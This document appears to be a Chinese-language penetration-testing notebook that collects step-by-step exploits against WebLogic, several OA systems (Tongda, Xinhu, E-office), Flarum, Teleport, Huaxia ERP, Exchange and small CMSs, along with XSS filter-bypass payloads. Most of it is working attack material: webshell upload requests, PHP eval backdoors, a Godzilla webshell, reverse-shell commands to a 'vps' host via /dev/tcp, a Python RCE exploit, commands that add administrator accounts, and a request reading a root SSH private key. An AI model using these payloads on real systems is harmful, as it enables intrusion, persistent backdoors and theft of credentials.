requests.get(
    f"{destination_url}wp-content/plugins/wpcargo/includes/barcode.php?text={text}&sizefactor=.090909090909&size=1&filepath=/var/www/html/webshell.php"
)
# We have uploaded a webshell - now let's use it to execute a command.
print(requests.post(

    f"{destination_url}webshell.php?1=system", data={"2": cmd}

).content.decode('ascii', 'ignore'))
```


## WebLogic-漏洞

有工具箱\exphub-master，直接用就行，还有weblogic的扫描器

发现`WebLogic Server`版本为`12.2.1.3.0`，可能存在漏洞：


点击`base_domain`：


展开`高级`：


勾选下方的`启用Web服务测试页`：


点击最下方的`保存`：


保存后打开新的标签页访问`http://192.168.2.100:7001/ws_utc/config.do`，若显示较慢可利用任务6结尾的方法重启代理服务端，代理隧道重建后再刷新查看：


将敏感文件中`path:`后面的部分复制粘贴至`当前的工作目录`，替换原有的内容：


完成后点击`提交`>>`确定`>>`安全`：


点击`添加`，弹出框中的输入栏输入两次`123`，点击`选择文件`，选中`C:\Users\Administrator\Desktop\工具\shell\Behinder_v3.0_Beta_11.t00ls\server`目录下的`shell.jsp`文件并点击`打开（O）`，上传完成后先不要点击`提交`：


Burpsuite工具开启拦截：


浏览器中切换代理模式为`Burpsuite`后迅速点击`提交`按钮：


Burpsuite工具闪烁，拦截到包信息，点击`Forward`找到下图所示类似的包：


将包发送到`Repeater`：


`Repeater`中发送数据包：


`Response`中出现响应，获取到时间戳：


拼接shell：

```
URL：http://192.168.2.100:7001/ws_utc/css/config/keystore/时间戳_shell.jsp

密码：rebeyond
```


## XSS跨站攻击

XSS 漏洞简介

跨站脚本攻击是指恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。
xss漏洞通常是通过php的输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行的，所以xss漏洞关键就是寻找参数未过滤的输出函数。
常见的输出函数有： echo printf print print_r sprintf die var-dump var_export.

xss 分类：（三类）

反射型XSS：一般容易出现在搜索页面。

存储型XSS：代码是存储在服务器中的

DOM型XSS：基于文档对象模型Document Objeet Model，DOM)的一种漏洞。

- payload——on，js事件

```
1、onmouseenter：当鼠标进入选区执行代码
<div style="123456</div>

2、onmouseleave：当鼠标离开选区执行代码
<DIV onmouseleave="alert('bem')" style="123456</DIV>

3、onmousewheel：当鼠标在选区滚轮时执行代码
<DIV onmousewheel="alert('bem')" style="123456</DIV>

4、onscroll：拖动滚动条执行代码
<div style="width:100px;height:100px;overflow:scroll" onscroll="alert('bem')">123456
</div>

5、onfocusin：当获得焦点时执行代码
<div contentEditable="true" style="asdf</div>

6、onfocusout：当失去焦点时执行代码
<div contentEditable="true" style="asdf</div>

7、onstart：当显示内容时执行代码
<marquee style="background-color:red" onstart="alert('bem')" >asdf</marquee>

8、onbeforecopy：选中内容后右键执行代码
<div style="" onbeforecopy="alert('bem')" >asdf</div>

9、onbeforecut：选中内容后右键执行代码
<div style="" onbeforecut="alert('bem')" >asdf</div>

10、onbeforeeditfocus：当获得焦点时执行代码
<div style="" contentEditable="true" onbeforeeditfocus="alert('bem')" >asdf</div>

11、onbeforepaste：选中内容后右键执行代码
<div style="" ="true" onbeforepaste="alert('bem')" >asdf</div>

12、oncontextmenu：鼠标右键执行代码
<div style="" oncontextmenu="alert('bem')" >asdf</div>

13、oncopy：鼠标右键执行复制时执行代码
<div style="" oncopy="alert('bem')" >asdf</div>

14、oncut：鼠标右键执行剪切时执行代码
<div contentEditable="true" style="" oncut="alert('bem')" >asdf</div>

15、ondrag：选择内容并拖动时执行代码
<div style="" ondrag="alert('bem')" >asdf</div>

16、ondragend：选择内容并拖动松开鼠标执行代码
<div style="" ondragend="alert('bem')" >asdf</div>

17、ondragenter：选择内容并拖动时执行代码
<div style="" ondragenter="alert('bem')" >asdf</div>

18、ondragleave：选择内容并拖出边框执行代码
<div contentEditable="true" style="" ondragleave="alert('bem')" >asdf</div>

19、ondragover：选择内容并拖动时执行代码
<div contentEditable="true" style="" ondragover="alert('bem')" >asdf</div>

20、ondragstart：选择内容并拖动时执行代码
<div contentEditable="true" style="" ondragstart="alert('bem')" >asdf</div>

21、ondrop：有内容被拖动进来时执行代码
<div contentEditable="true" style="" ondrop="alert('bem')" >asdf</div>
<div contentEditable="true" style="" ondrop="alert('bem')" >asdf</div>

22、onlosecapture：选择内容时执行代码
<div contentEditable="true" style="" onlosecapture="alert('bem')" >asdf</div>

23、onpaste：粘贴时执行代码
<div contentEditable="true" style="" onpaste="alert('bem')" >asdf</div>

24、onselectstart：选择内容时执行代码
<div contentEditable="true" style="" onselectstart="alert('bem')" >asdf</div>

25、onhelp：进入焦点按F1时执行代码
<div contentEditable="true" style="" onhelp="alert('bem')" >asdf</div>

26、onEnd：当时间线执行完毕时执行代码
<div STYLE="behavior:url('#default#time2')" onEnd="alert('bem')">asdf</div>

27、onBegin：当时间线开始执行代码
<div STYLE="behavior:url('#default#time2')" onBegin="alert('bem')">asdf</div>

28、onactivate：激活当前标签时执行代码
<div contentEditable="true" STYLE="" onactivate="alert('bem')">asdf</div>

29、onfilterchange：当滤镜改变时执行代码
<div contentEditable="true" STYLE="filter: Alpha(opacity=100, style=2);" onfilterchange="alert('bem')">asdf</div>

30、onbeforeactivate：当激活当前标签时执行代码
<div contentEditable="true" STYLE="" onbeforeactivate="alert('bem')">asdf</div>

31、onbeforedeactivate：当标签内值改变时执行代码
<div contentEditable="true" STYLE="" onbeforedeactivate="alert('bem')">asdf</div>

32、ondeactivate：当标签内值改变时执行代码
<div contentEditable="true" STYLE="" ondeactivate="alert('bem')">asdf</div>


```

- payload——标签

```
<a>标签
<a href=javascript:alert(1)>111</a>

标签


<input>标签
<input onmouseover=alert(1) />

<script>标签
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>

```

- payload——过狗过墙思路

```
alert被过滤，可以prompt、confirm、console.log替换使用：
如果都被过滤，可以换个方式绕过

onmouseover=top[11189117..toString(32)](2222)
onmouseover=top[11189117..toString(32)](2222)
onmouseover="setTimeout(String.fromCharCode(97,108,101,114,116,40,49,41))"

```

- 常用payload分享

```
本人常用payload分享

onmousemove=top[11189117..toString(32)](2222)
onmouseover=top[11189117..toString(32)](2222)
onclick=……………………等等
onmousemove='alert(1111)'a="
<script>top[11189117..toString(32)](2222)</script>
<ScRiPt>top[11189117..toString(32)](2222)</ScRiPt>
%3cscript%3ealert(1111)%3c/script%3e
<Script>\u0061\u006C\u0065\u0072\u0074(1111)</Script>


%3Cimg+src%3Dx+onerror%3Dtop[11189117..toString(32)]%601111%60%3E


1、如果()被过滤，可以用//和``替代
2、如果<>被过滤，可以用%3c和%3e替代
3、如果‘“引号被过滤，可以用%27或%22替代
4、如果alert等被过滤，可以用其他方式代替，或者编码，或者上面提到的那些事件
5、如果scrip被过滤，可以用a标签或者img或者input标签替代绕过
```


## 通达OA

### 通达OA 2015-2017版本

1.  任意文件上传漏洞（一） general/reportshop/utils/upload.php 文件中存在任意文件上传漏洞，攻击者可在任意用户登录的状态下通过该文件上传接口，上传任意文件到指定的文件夹中。 
2.  任意文件上传漏洞（二） mobile/reportshop/report/getdata.php 文件中存在任意文件上传漏洞，攻击者可在任意用户登录的状态下通过该文件上传接口，上传任意文件到指定的文件夹中。 
3.  文件包含漏洞（一） inc/second_tabs.php 文件中存在文件包含漏洞，攻击者可在任意用户登录的状态下通过该漏洞，包含任意文件，最终可执行任意PHP代码。 
4.  文件包含漏洞（二） general/reportshop/utils/upload.php 文件中存在文件包含漏洞，攻击者可在任意用户登录的状态下通过该漏洞，包含任意文件，最终可执行任意PHP代码。 
5.  任意文件删除漏洞 general/reportshop/utils/upload.php 文件中存在任意文件删除漏洞，攻击者可在任意用户登录的状态下通过该漏洞，删除任意文件。 

### v11.5以下

TongDaOA-Fake-User

1. python3 poc.py -v 版本 -url url
2. 运行并获取到可用的SESSIONID
3. 替换浏览器Cookie中的SESSIONID即可实现登录为admin
4. 在通达OA的登录界面中输入任意用户名和密码，点击`登录`。

   

   回到burpsuite，找到登录动作的包，可通过`Forward`按钮进行查找，包内有账户密码信息。

   

   点击`Action`>>`Send to Repeater`把这个包发送给`Repeater`，完成后点击`Repeater`。

   

   在Repeater中进行以下修改：

   ```
   logincheck.php修改为logincheck_code.php
   
   将Cookie:后面的内容删除
   
   在结尾添加&UID=1
   ```

   

   点击`Go`进行发送，在`Response`中获取到session值：

   

   将`set-Cookie`后面的`PHPSESSID`的值（红色字体部分）进行拷贝，选中后右键点击`Copy`。

   

   回到火狐浏览器OA登录界面，找到`Cookies Manager+`并点击。

   

   选中`Domain`为`192.168.12.55`，`Name`为`PHPSESSID`的记录，点击`Edit`：

   

   将`Content`的内容进行替换，替换为之前拷贝的红色字体部分，完成后点击`Save`进行保存，完成后点击`Close`。

   

   burpsuite关闭拦截：

   

   火狐浏览器切换代理模式：

   

   在火狐浏览器中打开新的标签页，输入`http://192.168.12.55/general`进行访问，发现登录到后台：

   


### v11.5

```html
POST /general/file_folder/swfupload_new.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 355
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2
Accept-Encoding: gzip

------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_ID"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_NAME"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="FILE_SORT"

2
------------GFioQpMK0vv2
Content-Disposition: form-data; name="SORT_ID"

------------GFioQpMK0vv2--
```


### v11.6

`TongdaRCE-master.zip`

需要先自定义payload，编辑tongda-rce.py：

```
<?php @eval($_POST[123]);?>
```


中途需要按enter确认

```
python3 tongda-rce.py http://192.168.50.30/
```


### v11.7-11.8

**v11.7~v11.8任意用户登录+后台日志GetShell**

前台通过遍历UID找到在线的人员后，获取phpsession后即可登录

后台通过.user.ini文件进行解析日志文件


### v11.9

通达OA的v11.9版本，getdata接口存在命令执行漏洞，可以执行某些命令。构造payload后可以直接访问到webshell，并且不需要上传任何文件和执行任何命令。通达OA默认是开启disable function的，危险函数都被禁用了，连接webshell后会不能执行命令，但是可以管理文件，这便是突破口。

访问注册页面查看OA版本：

```
http://192.168.11.210/inc/expired.php
```

浏览器访问下方内容验证漏洞是否存在：

```
http://192.168.11.210/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval(base64_decode(%22ZWNobyB2dWxuX3Rlc3Q7%22)))%3B/*&id=19&module=Carouselimage
```


其中`ZWNobyB2dWxuX3Rlc3Q7`为base64加密后的`echo vuln_test;`命令，页面输出`vuln_test`，说明漏洞存在；构造webshell：

```
http://192.168.11.210/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval($_POST[pass]))%3B/*&id=19&module=Carouselimage
```


### v11.10

 利用方式一

```
http://192.168.222.128/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval($_POST[c]))%3B/*&id=19&module=Carouselimage
```


 利用方式二

无法直接写入带有变量的 php 文件

所以首先利用 无参 webshell

```
<?php @eval(next(getallheaders()));
```


```
GET /general/appbuilder/web/portal/gateway/getdata?activeTab=%e5%27,1%3d%3Efwrite(fopen(%22C:/MYOA/webroot/general/1.php%22,%22w+%22),%22%3C?php%20eval(next(getallheaders()));%22))%3b/*&id=266&module=Carouselimage HTTP/1.1
Host: 192.168.222.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```


上传成功后再利用第一次生成的恶意文件再生成文件

```
GET /general/test.php HTTP/1.1
Host: 192.168.121.147:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: file_put_contents('test1.php','<?php @eval($_REQUEST[1]);');
Content-Length: 28

Upgrade-Insecure-Requests: 1
```


但是无法直接直接命令，这是因为权限过低的原因 所以想要进一步的操作，就需要提权，可以利用数据库udf提权

## 信呼OA

通过网上查阅,发现存在一个信呼OA RCE的漏洞
 EXP 如下，不过要准备一个1.php放在脚本相同的目录下，内容为一句话木马
 我这里的一句话木马内容为:<?=eval($_POST[hacker]);?>

```python
import requests
session = requests.session()
url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=::',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}
r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})
filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
r = session.get(url_pre + filepath)
print(r.text)
print(url_pre + filepath)
```

进行proxychains python3 exp.py获得Webshell


## E-officeOA


Burpsuite开启拦截，点击刷新，捕获到向目标主机发送get请求的数据包：


上传payload，将捕获的数据包进行覆盖：

```
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 192.168.200.30:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 193
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename= test.jpg; filename="test.php"
Content-Type: image/jpeg

<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}


--e64bdf16c554bbc109cecef6451c26a4--
```


发送至`Repeater`：


Repeater中点击Go，Response中出现响应，成功上传webshell：


启动哥斯拉，路径如下，双击`godzilla.jar`：


新增shell：


shell信息如下：

```
shell url:http://192.168.200.30:8082/images/logo/logo-eoffice.php

shell pwd:pass
```


## Flarum论坛漏洞

先下一个phpggc，一种类似于yso但是针对php的反序列化利用工具，这里为了可控文件头，我们使用phpggc来生成tar格式包，里面内容就是反弹shell的命令

    php phpggc -p tar -b Monolog/RCE6 system "bash -c 'bash -i >& /dev/tcp/vps/port 0>&1'"
    ./phpggc -p tar -b Monolog/RCE6 system "bash -c 'bash -i >& /dev/tcp/vps/port 0>&1'"     #这条命令运行了很久都没结果

如果遇到Cannot create phar: phar.readonly is set to 1报错，参考文章，修改参数


将base64代码复制过来，在后台修改css那里替换下面代码的……

@import (inline) 'data:text/css;base64,……';


接着访问一下主页39.xx.xx.xx/assets/forum.css确保css样式已经成功修改


接下来再次修改自定义CSS，使用phar协议包含我们修改的css文件

    .test {
        content: data-uri('phar://./assets/forum.css');
    }


拿到shell


写个马好上蚁剑（/var/www/html/public/assets目录下才有权限，后面的文件上传也是一样）

echo "<?php @eval(\$_POST[1]);?>" > 1.php


连接蚁剑http://39.xx.xx.xx/assets/1.php


## teleport-文件和用户漏洞

teleport版本号，该版本存在任意用户登录漏洞和后台任意文件读取漏洞：


关闭burpsuite的包拦截，输入任意账户密码，填写正确的验证码，开启burpsuite的包拦截，浏览器切换为`Burp Suite`代理后点击`登录`：


回到burpsuite，释放GET请求包，找到POST请求包并发送到`Repeater`：


URL解码args的值可获得验证码（Decode as URL）：


在`Repeater`中修改数据包后点击`Send`：

```
/auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"xxxx","oath":"","remember":false}

##captcha参数的值为验证码；
```


code为0即为成功，关闭burpsuite包拦截，切换浏览器代理访问`192.168.10.100:7190/dashboard`进入后台：


读取主机私钥文件：

```
http://192.168.10.100:7190/audit/get-file?f=/root/.ssh/id_rsa&rid=1&type=rdp&act=read&offset=0
```


## 华夏ERP-恶意sql

vps上起个恶意mysql -->https://github.com/fnmsd/MySQL_Fake_Server

下载ysoserial jar包放到server.py目录下-->https://github.com/frohoff/ysoserial/releases

修改config.json

①base64中的ip和port需要改成自己vps的ip和port

②javaBinPath为vps上java的路径

    {
        "config":{
            "ysoserialPath":"ysoserial-all.jar",
            "javaBinPath":"java",
            "fileOutputDir":"./fileOutput/",
            "displayFileContentOnScreen":true,
            "saveToFile":true
        },
        "fileread":{
            "win_ini":"c:\\windows\\win.ini",
            "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
            "win":"c:\\windows\\",
            "linux_passwd":"/etc/passwd",
            "linux_hosts":"/etc/hosts",
            "index_php":"index.php",
            "ssrf":"https://www.baidu.com/",
            "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
        },
        "yso":{
            "Jdk7u21":["Jdk7u21","calc"],
            "CommonsCollections7":["CommonCollections7","bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9pcC9wb3J0IDA+JjE=}|{base64,-d}|{bash,-i}"]
        }
    }

exp：

    {
    	"name": {
    		"@type": "java.lang.AutoCloseable",
    		"@type": "com.mysql.jdbc.JDBC4Connection",
    		"hostToConnectTo": "vps",
    		"portToConnectTo": 3306,
    		"info": {
    			"user": "CommonsCollections7",
    			"password": "pass",
    			"statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    			"autoDeserialize": "true",
    			"NUM_HOSTS": "1"
    		}
    	}
    }

开启fake mysql server

python3 server.py


将exp的内容进行url编码


vps上监听端口


burpsuit抓包，改为/user/list?search=，再添加exp，发送


getshell


## Exchange服务器中的任意文件写入漏洞(CVE-2021–26855, CVE-2021–26857, CVE-2021–26858, CVE-2021–27065)

```cobol
域内Exchange机器
```


用exp直接打（exprolog.py），盲猜邮件后缀是xiaorang.lab

proxychains python3 exprolog.py -t 172.22.3.9 -e administrator@xiaorang.lab


成功写入shell

用他给的命令测试

proxychains4 curl --request POST --url https://172.22.3.9/owa/auth/jm6yz.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k

成功


添加用户

    proxychains4 curl --request POST --url https://172.22.3.9/owa/auth/jm6yz.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("net user test Abcd1234 /add").stdout.readall())' -k
    proxychains4 curl --request POST --url https://172.22.3.9/owa/auth/jm6yz.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("net localgroup administrators test /add").stdout.readall())' -k

远程登录172.22.3.9


## 靶场练习漏洞

### 图片文件上传shell

扫描出上传文件目录

尝试上传文件，选择刚刚生成的php文件（先不要点击提交）


开启burp抓包：打开burpsuite后先关闭抓包，浏览器插件开启burp代理。

burp开启抓包后，点击提交。

抓到数据包后发送到重发器中，点击send后发现文件类型被限制。


利用Windows附件的画图工具生成一张png图片

尝试上传图片马，抓取上传图片的数据包，在图片内容最后加上`<?php phpinfo(); @eval($_POST['123']);?>`后发送到重发器。


上传成功，并返回路径


修改文件名为能够解析的文件，经过多次尝试均失败。由于中间件是Apache，尝试上传phtml文件，Apache会解析phtml文件。


访问返回的文件路径。


### 网页源码审计

目标开放80端口，尝试访问：


提示进行提权操作，右键查看网页源代码，发现网站路径：


回到`Kali攻击机`尝试提权，查看是否可以读写文件：

```
SHOW VARIABLES LIKE "secure_file_priv";
```


结果为`NULL`，说明不能读写文件。查看操作日志是否开启：

```
show variables like 'general_log%';
```


显示没有开启，发现网站日志路径。将日志开启并将一句话木马写入网站文件：

```
set global general_log = 'ON';       

set global general_log_file='/var/www/html/index.php'; 

select '<?php @eval($_POST["pass"]);?>';
```


回到`Win10攻击机`，使用蚁剑连接：



### hillstone上传shell

注册账号并登录：


使用一句话木马：

```
<?php $arr = [$_POST["cmd"],$_REQUEST["cmd"]];@assert($arr[mt_rand(0,1)]);?>
```

进行base64编码：

```
PD9waHAgJGFyciA9IFskX1BPU1RbImNtZCJdLCRfUkVRVUVTVFsiY21kIl1dO0Bhc3NlcnQoJGFyclttdF9yYW5kKDAsMSldKTs/Pg==
```


在火狐浏览器上输入：

```
Load URL：

http://192.168.10.111:8888/index.php?s=member&c=account&m=upload

Post data：

tx=data:image/phtml;base64,PD9waHAgJGFyciA9IFskX1BPU1RbImNtZCJdLCRfUkVRVUVTVFsiY21kIl1dO0Bhc3NlcnQoJGFyclttdF9yYW5kKDAsMSldKTs/Pg==
```


点击`execute`，显示如下说明写入成功：


木马植入成功后访问其存在位置：

```
Load URL：

http://192.168.10.111:8888/uploadfile/member/X/0x0.phtml 

##X范围0~9，由于木马的目录是随机生成的，请依次尝试。

Post data：

cmd=phpinfo();
```

点击`execute`。


打开蚁剑工具：


尝试使用蚁剑连接，编码格式选择`base64`：

```
Shell url:http://192.168.10.111:8888/uploadfile/member/X/0x0.phtml

shell pwd:cmd

Encoder:base64
```

右键空白处点击`Add`，shell信息如下：


### 后台文档上传

使用火狐浏览器访问目标8080端口：


快捷键`Alt+Shift+U`查看网页源码，末尾发现是`TinyRise`的CMS，该CMS存在文件包含漏洞。


在首页点击`登录`进入用户登录界面：


在地址栏发现是普通用户登录地址。


将`simple`替换成`admin`，访问管理员登录界面：


尝试弱口令登录，使用`admin/admin888`登录成功：


点击`系统设置`>>`数据库管理`>>`数据库备份`，勾选 `tiny_help`。


点击最上方的`备份`。


备份之后点击`处理`>>`下载`，将文件下载到桌面。


编辑下载的文件，找到`配送范围`，写入一句话免杀木马并保存：

```
<?php $arr = [$_POST["cmd"],$_REQUEST["cmd"]];@assert($arr[mt_rand(0,1)]);?>
```


回到浏览器界面点击`导入`，选择刚下载并修改的文件进行`上传`：


点击`系统设置`>>`安全管理`>>`清除缓存`>>`全部清理缓存`：


点击`内容管理`>>`全部帮助`>>`用户注册协议`：


点击后跳转到新界面。


打开新的标签页，测试木马是否上传成功：

```
Load URL：

http://192.168.10.111:8080/cache/325/532/5862.php

Post data：

cmd=phpinfo();
```



通过蚁剑连接：

```
Shell url:http://192.168.10.111:8080/cache/325/532/5862.php

shell pwd:cmd

Encoder:base64
```


## 小网站CMS合集

### cmseasy

看到是cmseasy，有个后台登录页面39.xx.xx.xx/admin，admin/123456可以登录

参考文章getshell


URL：

http://39.99.230.40/index.php?case=template&act=fetch&admin_dir=admin&site=default

Body：

sid=#data_d_.._d_.._d_.._d_11.php&slen=693&scontent=<?php @eval($_POST[1]);?>

在hackbar执行，回显ok（如果不行就赋复制这篇博客里的命令）

